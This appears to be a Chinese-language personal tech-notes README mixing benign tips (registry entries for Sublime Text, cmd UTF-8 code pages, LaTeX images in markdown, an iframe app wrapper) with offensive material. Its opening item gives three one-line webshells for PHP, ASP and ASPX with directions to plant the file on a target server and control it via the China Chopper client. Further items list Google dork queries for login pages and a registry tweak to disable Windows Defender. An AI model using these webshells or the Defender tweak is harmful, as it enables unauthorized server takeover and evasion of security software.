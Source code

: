 技术随笔
=====
* 一句话木马（三条）
```
php：<?php @eval($_post['pass']);?>
asp：<%eval request ("pass")%>
aspx：<%@ Page Language="Jscript"%> <%eval(Request.Item["pass"],"unsafe");%>
("pass"为你自己要设的密码)
```
用法例子（第一条）：新建一个php文件，把`php：<?php @eval($_post['pass']);?>`复制到php中并保存即可，然后想办法把这个文件弄到目标服务器上就可以控制这个服务器了。可结合“中国菜刀”使用。（仅供学习，勿用于非法用途！）
* 谷歌黑语法（例子）
```
inurl:login.php
intitle:登陆
intext:登陆
```
* 如何长期关闭Windows Defender但又不删除它（方法之一）<br>打开注册表HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender并对DisableAntiSpyware的数值数据进行修改，其中“0”和“1”分别代表“开启”和“关闭”
* #### 如何把网站打包成app
```HTML
<iframe frameborder="0" src="填入网址"
style="width:100%;position:fixd;height:100%;"></iframe>
```
添加到index.html文件最下面，然后打包成app即可（HBuider软件）<br>软件功能:打开app直接显示你的网站内容，类似浏览器的桌面快捷方式。
* 如何在GitHub的md文件中添加数学公式（不推荐使用，只供学习）
```
形式：https://latex.codecogs.com/gif.latex?Latex形式的数学公式
具体用法示例：![](https://latex.codecogs.com/gif.latex?(AB)^n\neq%20A^nB^n)
```
效果：![](https://latex.codecogs.com/gif.latex?(AB)^n\neq%20A^nB^n)，线性变换乘积的指数法则不成立，
这里要注意`%20`<br>[常用数学符号的LaTex表示](http://mohu.org/info/symbols/symbols.htm)
* 如何把已安装的sublime text添加入鼠标右键，通过创建reg文件，双击运行就ok了（也可以直接打开`regedit`进行添加）
```reg
Windows Registry Editor Version 5.00
[HKEY_CLASSES_ROOT\*\shell\SublimeText3]
@="Open by SublimeText3"
"Icon"="D:\\Program Files\\Sublime Text 3\\sublime_text.exe,0"
[HKEY_CLASSES_ROOT\*\shell\SublimeText3\command]
@="D:\\Program Files\\Sublime Text 3\\sublime_text.exe %1"
[HKEY_CLASSES_ROOT\Directory\shell\SublimeText3]
@="Open by SublimeText3"
"Icon"="D:\\Program Files\\Sublime Text 3\\sublime_text.exe,0"
[HKEY_CLASSES_ROOT\Directory\shell\SublimeText3\command]
@="D:\\Program Files\\Sublime Text 3\\sublime_text.exe %1"
```
把代码中的`D:\\Program Files\\Sublime Text 3\\sublime_text.exe`改成自己的sublime text安装目录
* 如何把cmd的编码方式（系统默认gbk）改为utf-8<br>方法：修改注册表（regedit）<br>这里我只教通过创建reg文件来修改,自己也可以通过手动添加，在cmd中输入regedit回车就可以直接打开注册表<br>
```reg
Windows Registry Editor Version 5.00

[HKEY_CURRENT_USER\Console\%SystemRoot%_system32_cmd.exe]
"CodePage"=dword:0000fde9
"FontFamily"=dword:00000036
"FontWeight"=dword:00000190
"FaceName"="Consolas"
"ScreenBufferSize"=dword:232900d2
"WindowSize"=dword:002b00d2
```
新建一个reg文件，并把这段代码复制到文件中，然后双击运行这个文件即可（弄好reg文件就可以删掉了）。
* 如何查看cmd的编码方式<br>
在cmd窗口输入chcp回车即可，`65001`表示utf-8,`936`代表gbk<br>
使用gcc/g++（在sublime text中调用gcc or g++）时会因为cmd的编码方式不对而导致中文为乱码
* 基于不同情况对cmd的编码方式需求不同，如何创建临时活动代码页<br>
```
代码页  描述
65001   UTF-8代码页
 950    繁体中文
 936    简体中文默认的GBK
 437    MS-DOS 美国英语
```
 用法：`chcp 代码页`<br>例子：在cmd中输入`chcp 65001`回车就可以创建临时的utf-8活动代码页（即自己希望的cmd编码方式）
>更新中...
